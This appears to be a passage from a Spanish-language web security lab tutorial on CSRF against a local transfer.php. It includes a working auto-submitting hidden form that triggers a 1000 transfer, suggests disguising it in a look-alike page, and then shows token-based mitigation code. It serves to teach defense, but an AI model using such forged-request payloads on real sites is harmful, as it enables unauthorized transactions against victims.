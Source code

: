 ![](images/csrf3.png)

Confirmación: El ataque CSRF se ejecutó correctamente

- El log indica que el navegador envió una solicitud GET a transfer.php?amount=1000 desden csrf_attack.html.

- El servidor respondió con 200 OK, lo que significa que la transacción se realizó sin que el usuario lo notara.

Esto confirma que transfer.php es vulnerable a CSRF porque NO verifica el origen de la solicitud ni usa protección con tokens.

Una variante es que podemos insertar un formulario automático en una página legítima, con una estética muy parecida al diseño original, para engañar a la víctima.

Crea el archivo csrf_attack2.html:
~~~
<!DOCTYPE<html>
<body>
        <form action="http://localhost/transfer.php" method="POST">
                <input type="hidden" name="amount" value="1000">
                <input type="submit">
        </form>
        <script>
                document.forms[0].submit();
        </script>
</body>
</html>
~~~
El usuario al realizar una transferencia, no se dá cuenta que en realidad ha realizado una transferencia a la cuenta del atacante

![](images/csrf4.png)


### Mitigaciones
---
**Verificando que transfer.php está protegiendo correctamente con el token CSRF**
---

- Modificamos el archivo transfer.php:

- Nos aseguramos de que el código tiene esta validación:

~~~
<?php
session_start();
// Generar un token CSRF si no existe
if (empty($_SESSION['csrf_token'])) {
        $_SESSION['csrf_token'] = bin2hex(random_bytes(32));
}
// Solo permitir solicitudes POST con un token CSRF válido
if ($_SERVER["REQUEST_METHOD"] == "POST") {
        if (!isset($_POST['csrf_token']) || $_POST['csrf_token'] !== $_SESSION['csrf_token']) {die("CSRF detectado. Acción bloqueada.");
        }
        $amount = $_POST["amount"];
        echo "Transferidos $$amount";
}
?>
<form method="post">
        <input type="number" name="amount">
        <input type="hidden" name="csrf_token" value="<?php echo $_SESSION['csrf_token']; ?>">
        <button type="submit">Transferir</button>
</form>
~~~
